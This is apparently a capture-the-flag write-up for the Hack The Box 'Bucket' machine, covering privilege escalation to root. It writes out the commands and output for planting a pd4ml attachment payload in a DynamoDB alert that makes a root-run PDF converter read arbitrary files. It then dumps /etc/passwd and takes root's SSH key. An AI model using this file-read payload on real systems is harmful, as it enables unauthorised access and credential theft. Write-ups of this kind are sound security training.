 ```bash
roy@bucket:~$ ls -la
total 32
drwxr-xr-x 4 roy  roy  4096 May  8 07:56 .
drwxr-xr-x 3 root root 4096 Sep 16  2020 ..
lrwxrwxrwx 1 roy  roy     9 Sep 16  2020 .bash_history -> /dev/null
-rw-r--r-- 1 roy  roy   220 Sep 16  2020 .bash_logout
-rw-r--r-- 1 roy  roy  3771 Sep 16  2020 .bashrc
drwx------ 2 roy  roy  4096 May  8 07:56 .cache
-rw-r--r-- 1 roy  roy   807 Sep 16  2020 .profile
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 project
-r-------- 1 roy  roy    33 May  7 19:29 user.txt
roy@bucket:~$ cat user.txt 
3f48bf003e518859972582400ce52df9
```

# Enumeration -

- Port 8000 running as root -
```bash
<VirtualHost 127.0.0.1:8000>
        <IfModule mpm_itk_module>
                AssignUserId root root
        </IfModule>
        DocumentRoot /var/www/bucket-app
</VirtualHost>
```

- Checking the bucket-app -
```bash
roy@bucket:/var/www/bucket-app$ ls -la
total 856
drwxr-x---+  4 root root   4096 Feb 10 12:29 .
drwxr-xr-x   4 root root   4096 Feb 10 12:29 ..
-rw-r-x---+  1 root root     63 Sep 23  2020 composer.json
-rw-r-x---+  1 root root  20533 Sep 23  2020 composer.lock
drwxr-x---+  2 root root   4096 Feb 10 12:29 files
-rwxr-x---+  1 root root  17222 Sep 23  2020 index.php
-rwxr-x---+  1 root root 808729 Jun 10  2020 pd4ml_demo.jar
drwxr-x---+ 10 root root   4096 Feb 10 12:29 vendor
```

- Checking index.php (running on port 8000)  -

![[Pasted image 20210508042731.png]]

On a POST request with the `action` parameter set to “get\_alerts”, it will query the DynamoDbClient for alerts that contain “Ransomware” in the title column. For each result, it will create a random filename in `files` and write the contents of the data column into that file.

Then it calls the [pd4ml](https://pd4ml.com/) Jar on that temporary HTML file to convert it to PDF.

## >>How to attach using pd4html -

LINK - https://pd4ml.com/cookbook/pdf-attachments.htm

Example -
1.  <pd4ml:attachment src\="http://pd4ml.com/i/logo.png" 
2.   description\="attachment sample" icon\="Paperclip"/>

## >> Creating a table in dynamodb -

LINK - https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/getting-started-step-1.html

Example -
```bash
aws dynamodb create-table \
    --table-name Music \
    --attribute-definitions \
        AttributeName=Artist,AttributeType=S \
        AttributeName=SongTitle,AttributeType=S \
    --key-schema \
        AttributeName=Artist,KeyType=HASH \
        AttributeName=SongTitle,KeyType=RANGE \
--provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5		
```

# >>Exploitation -

- Connecting through ssh via port forwarding to access port 8000 -

###  `ssh roy@10.10.10.212 -L 8000:localhost:8000`
![[Pasted image 20210508044731.png]]

- Checking the webpage -

![[Pasted image 20210508044938.png]]

- Creating Table -

```bash
aws --endpoint-url http://s3.bucket.htb dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
--provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5		
```


- Running the command -

```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb create-table     --table-name alerts     --attribute-definitions         AttributeName=title,AttributeType=S     --key-schema         AttributeName=title,KeyType=HASH --provisioned-throughput         ReadCapacityUnits=10,WriteCapacityUnits=5
{
    "TableDescription": {
        "AttributeDefinitions": [
            {
                "AttributeName": "title",
                "AttributeType": "S"
            }
        ],
        "TableName": "alerts",
        "KeySchema": [
            {
                "AttributeName": "title",
                "KeyType": "HASH"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": 1620464597.109,
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": 0.0,
            "LastDecreaseDateTime": 0.0,
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

- Creating a ransomware.json file to upload  to the table -
```bash
{"title":
        {"S": "Ransomware"},
        "data":
        {
                "S":"<html><pd4ml:attachment src='/etc/passwd' description='attachment sample' icon='Paperclip'/>"
        }
}
```

- Uploading the file -

```bash
root@napster:~/Documents/HTB/Bucket# aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item file://ransomware.json
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

- Doing a POST request on get_alerts -

```bash
root@napster:~/Documents/HTB/Bucket# curl -X POST -d "action=get_alerts" http://127.0.0.1:8000
```

- Visiting the webpage and downloading the attachment -

![[Pasted image 20210508052811.png]]

-  /etc/passwd -

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

- Grabbing the ssh keys of root using the above -

![[Pasted image 20210508060732.png]]

- Logging in and grabbing root.txt -

```bash
root@napster:~/Documents/HTB/Bucket# ssh -i id_rsa root@10.10.10.212
root@bucket:~# ls -la
total 76
drwx------ 11 root root 4096 Sep 24  2020 .
drwxr-xr-x 21 root root 4096 Feb 10 12:49 ..
drwxr-xr-x  2 root root 4096 Sep 23  2020 .aws
drwxr-xr-x  3 root root 4096 Sep 16  2020 backups
lrwxrwxrwx  1 root root    9 Sep  4  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Sep 23  2020 .cache
drwxr-xr-x  3 root root 4096 Sep 21  2020 .config
-rw-r--r--  1 root root  217 Sep 24  2020 docker-compose.yml
drwxr-xr-x  7 root root 4096 May  8 10:11 files
drwxr-xr-x  3 root root 4096 Sep 21  2020 .java
drwxr-xr-x  3 root root 4096 Sep 24  2020 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rwxr-xr-x  1 root root 1694 Sep 24  2020 restore.php
-rwxr-xr-x  1 root root  381 Sep 24  2020 restore.sh
-r--------  1 root root   33 May  7 19:29 root.txt
drwxr-xr-x  3 root root 4096 May 18  2020 snap
drwx------  2 root root 4096 Sep 21  2020 .ssh
-rwxr-xr-x  1 root root  340 Sep 24  2020 start.sh
-rwxr-xr-x  1 root root  182 Sep 24  2020 sync.sh
root@bucket:~# cat root.txt 
4652220e0291dbc366eb58d7606c1739
```